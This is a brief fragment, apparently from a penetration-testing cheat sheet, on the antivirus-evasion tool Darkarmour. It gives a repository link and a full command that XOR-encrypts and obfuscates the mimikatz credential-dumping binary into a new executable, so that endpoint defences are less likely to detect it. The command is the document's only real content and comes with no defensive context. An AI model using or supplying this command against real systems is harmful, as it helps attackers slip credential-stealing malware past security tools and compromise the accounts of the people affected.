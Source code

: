 ### Darkarmour
https://github.com/bats3c/darkarmour  
python3 darkarmour.py -f /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -e xor -j -k darkbyte -l 500 -u -o /home/kali/Desktop/b_m.exe
